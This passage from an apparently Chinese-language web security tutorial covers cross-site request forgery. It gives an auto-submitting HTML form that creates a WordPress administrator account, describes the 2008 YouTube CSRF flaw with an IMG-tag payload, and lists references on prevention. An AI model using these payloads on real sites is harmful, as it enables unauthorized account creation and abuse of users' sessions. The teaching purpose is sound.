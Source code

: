 ```html
<html> 
<body onload="javascript:document.forms[0].submit()"> 
<H2>CSRF Exploit to add Administrator</H2> 
<form method="POST" name="form0" action="http://<wordpress_ip>:80/wp-admin/user-new.php"> 
<input type="hidden" name="action" value="createuser"/> 
<input type="hidden" name="_wpnonce_create-user" value="<sniffed_value>"/> 
<input type="hidden" name="_wp_http_referer" value="%2Fwordpress%2Fwp-admin%2Fuser-new.php"/> 
<input type="hidden" name="user_login" value="admin2"/> 
<input type="hidden" name="email" value="admin2@admin.com"/> 
<input type="hidden" name="first_name" value="admin2@admin.com"/> 
<input type="hidden" name="last_name" value=""/> 
<input type="hidden" name="url" value=""/> 
<input type="hidden" name="pass1" value="password"/> 
<input type="hidden" name="pass2" value="password"/> 
<input type="hidden" name="role" value="administrator"/> 
<input type="hidden" name="createuser" value="Add+New+User+"/> 
</form> 
</body> 
</html> 

```

## YouTube的CSRF漏洞

2008年，有安全研究人员发现，YouTube上几乎所有用户可以操作的动作都存在CSRF漏洞。如果攻击者已经将视频添加到用户的“Favorites”，那么他就能将他自己添加到用户的“Friend”或者“Family”列表，以用户的身份发送任意的消息，将视频标记为不宜的，自动通过用户的联系人来共享一个视频。例如，要把视频添加到用户的“Favorites”，攻击者只需在任何站点上嵌入如下所示的IMG标签：

```html
<img src="http://youtube.com/watch_ajax?action_add_favorite_playlist=1&video_
id=[VIDEO ID]&playlist_id=&add_to_favorite=1&show=1&button=AddvideoasFavorite"/>

```

攻击者也许已经利用了该漏洞来提高视频的流行度。例如，将一个视频添加到足够多用户的“Favorites”，YouTube就会把该视频作为“Top Favorites”来显示。除提高一个视频的流行度之外，攻击者还可以导致用户在毫不知情的情况下将一个视频标记为“不宜的”，从而导致YouTube删除该视频。

这些攻击还可能已被用于侵犯用户隐私。YouTube允许用户只让朋友或亲属观看某些视频。这些攻击会导致攻击者将其添加为一个用户的“Friend”或“Family”列表，这样他们就能够访问所有原本只限于好友和亲属表中的用户观看的私人的视频。

攻击者还可以通过用户的所有联系人名单（“Friends”、“Family”等等）来共享一个视频，“共享”就意味着发送一个视频的链接给他们，当然还可以选择附加消息。这条消息中的链接已经并不是真正意义上的视频链接，而是一个具有攻击性的网站链接，用户很有可能会点击这个链接，这便使得该种攻击能够进行病毒式的传播。

### 参考文献

- Mozilla wiki.[Security-Origin](https://wiki.mozilla.org/Security/Origin)
- OWASP.[Cross-Site_Request_Forgery_(CSRF)_Prevention_Cheat_Sheet](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)_Prevention_Cheat_Sheet).
- Gmail Security Hijack Case.[Google-Gmail-Security-Hijack](https://www.davidairey.com/google-gmail-security-hijack/).
- Netsparker Blog.[Same-Site-Cookie-Attribute-Prevent-Cross-site-Request-Forgery](https://www.netsparker.com/blog/web-security/same-site-cookie-attribute-prevent-cross-site-request-forgery/)
- MDN.[Same-origin_policy#IE_Exceptions](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy#IE_Exceptions)
